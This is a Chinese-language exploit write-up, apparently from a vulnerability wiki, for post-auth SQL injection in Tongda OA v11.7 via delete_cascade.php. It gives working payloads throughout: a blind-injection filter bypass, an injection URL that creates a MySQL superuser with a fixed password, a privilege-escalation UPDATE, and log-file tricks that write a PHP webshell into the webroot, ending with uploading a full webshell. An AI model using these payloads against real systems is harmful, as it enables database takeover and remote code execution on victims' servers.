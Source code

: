 # 通达OA v11.7 delete_cascade.php 后台SQL注入

## 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

## 漏洞影响

<a-checkbox checked>通达OA v11.7</a-checkbox></br>

## 环境搭建

<a-checkbox checked>环境地址: https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe</a-checkbox></br>

## 漏洞复现

在 **general/hr/manage/query/delete_cascade.php** 文件中

![img](../../../.vuepress/public/img/tongdaoa-3.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

**inc/common.inc.php** 代码

![img](../../../.vuepress/public/img/tongdaoa-4.png)



使用盲注对SQL注入进行测试



![img](../../../.vuepress/public/img/tongdaoa-5.png)



触发了通达OA的SQL注入拦截

**inc/conn.php**文件中找到过滤机制如下:

![img](../../../.vuepress/public/img/tongdaoa-6.png)



其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：



```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```



![img](../../../.vuepress/public/img/tongdaoa-7.png)



![img](../../../.vuepress/public/img/tongdaoa-8.png)



添加SQL数据库用户



```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```



访问 **http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*



进入 **Myoa/mysql5/bin** 目录 执行 **mysql -upeiqi -p** 输入密码查询所有用户



![img](../../../.vuepress/public/img/tongdaoa-9.png)



发现成功执行添加一个账户

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：



```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```



![img](../../../.vuepress/public/img/tongdaoa-10.png)



然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限



![img](../../../.vuepress/public/img/tongdaoa-11.png)

登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

利用漏洞写shell



```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php phpinfo();?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php phpinfo();?>';
show variables like '%general%';
```



上传大马

![img](../../../.vuepress/public/img/tongdaoa-12.png)